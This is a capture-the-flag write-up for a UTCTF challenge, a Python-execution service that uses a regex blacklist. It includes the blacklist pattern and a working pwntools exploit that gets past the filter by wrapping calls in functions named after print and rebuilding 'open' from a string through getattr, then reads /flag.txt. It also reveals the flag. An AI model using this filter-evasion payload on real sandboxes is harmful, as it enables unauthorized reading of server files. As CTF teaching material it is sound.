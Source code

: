 #### Challenge:

Upload a Python file that can be run by invoking the python command, and we will run it for you. To do so, send the bytes over the stream, and close the write half. `stdout` will be sent back. For security reasons, we may refuse to run your file if we detect dangerous strings. There is a byte limit and a timeout.

`nc misc.utctf.live 4353`

---

#### Solution:

- if we try to read the `/flag.txt` directly we are blocked by blacklist, only allowed function is `print()`

```console
Blacklist: (eval)|(import)|(open)|(with)|(as)|(from)|(lambda)|(\s*print\s*=\s*)|(?P<paren>\()
Whitelist: (\s*print\s*(?P<paren>\())
```

- we can invoke any `.*print(.*)` functions, so to invoke other functions we can pass it as argument to function that will rename it locally
- second issue is that function `open` is also blacklisted, to get around this we can retrieve `open` function with string thanks to `getattr` + `__builtins__`

```python
#!/usr/bin/env python3
from pwn import *
import base64

context.log_level = 'error'
r = remote('misc.utctf.live', 4353)

script = '''
def _print(print, x):
    return print(x)


def __print(print, x, y):
    return print(x, y)


def ___print(print):
    return print()


m = 'o'
m += 'p'
m += 'e'
m += 'n'
o = __print(getattr, __builtins__, m)
f = __print(o, "/flag.txt", "r")
flag = ___print(f.read)
print(flag, end='')
'''

r.send(script)
r.shutdown('send')
r.recv()
print(r.recv().decode('utf-8'), end='')
```

---

<details><summary>FLAG:</summary>

```
utflag{unclean_input}
```

</details>
<br/>
